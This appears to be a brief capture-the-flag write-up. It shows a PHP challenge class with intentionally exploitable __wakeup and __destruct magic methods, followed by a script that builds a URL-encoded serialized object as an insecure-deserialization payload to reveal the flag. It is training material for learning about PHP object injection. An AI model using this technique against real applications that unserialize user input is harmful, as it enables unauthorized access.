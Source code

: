 ```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

反序列化

```php
<?php

class Name{
    private $username = 'admin';
    private $password = '100';
}

echo urlencode(serialize(new Name()));

?>
```
